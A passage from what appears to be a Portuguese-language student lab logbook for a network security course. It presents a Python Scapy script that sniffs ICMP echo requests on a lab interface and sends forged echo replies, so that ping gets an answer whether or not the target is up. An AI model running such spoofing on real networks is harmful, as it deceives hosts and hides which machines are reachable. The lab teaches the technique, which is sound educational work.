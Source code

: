 Como podemos verificar no output do `traceroute.py`, obtemos a distância de routers sendo ela de 4.


# Tarefa 1.4

O objetivo desta tarefa é implementar um programa que combine sniffing e spoofing para monitorizar pedidos ICMP echo request (ping) numa rede local (LAN) e enviar respostas ICMP echo reply forjadas, fazendo com que o comando `ping` receba sempre uma resposta, independentemente de o destino estar ativo ou não.

Sendo assim criamos o script de python `snif_spoof.py` para executar esta tarefa. 

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(packet):
    if ICMP in packet and  packet[ICMP].type == 8:  # Check for ICMP echo
        print(f"[*] Sniffed ICMP echo request:")
        print(f"    Source IP: {packet[IP].src}")
        print(f"    Destination IP: {packet[IP].dst}")
        print(f"    ICMP ID: {packet[ICMP].id}, Sequence: {packet[ICMP].seq}")

        # Create an ICMP echo reply packet
        ip_layer = IP(src=packet[IP].dst, dst=packet[IP].src)
        icmp_layer = ICMP(type=0, id=packet[ICMP].id, seq=packet[ICMP].seq)
        spoofed_packet = ip_layer / icmp_layer / packet[ICMP].payload

        # Send the spoofed packet
        send(spoofed_packet, verbose=False)
        print(f"[+] Sent spoofed ICMP echo reply:")
        print(f"    Spoofed Source IP: {spoofed_packet[IP].src}")
        print(f"    Spoofed Destination IP: {spoofed_packet[IP].dst}")
        print(f"    ICMP ID: {spoofed_packet[ICMP].id}, Sequence: {spoofed_packet[ICMP].seq}\n")

def main():
    print("Starting ICMP sniff-and-spoof...")
    filtro1 = 'icmp and host 1.2.3.4'
    filtro2 = 'icmp and host 10.9.0.99'
    filtro3 = 'icmp and host 8.8.8.8'
    # Replace n with the filter being used
    pkt = sniff(iface='br-4b9a8e81920d',filter=filtro<n>, prn=spoof_pkt)

if __name__ == "__main__":
    main()
```

Para o `filtro1` ao fazermos ping ao IP `1.2.3.4` a partir do hostB, por exemplo, conseguimos verificar o seguinte:

![pingF1](resources/LOGBOOK13/pingF1.png)

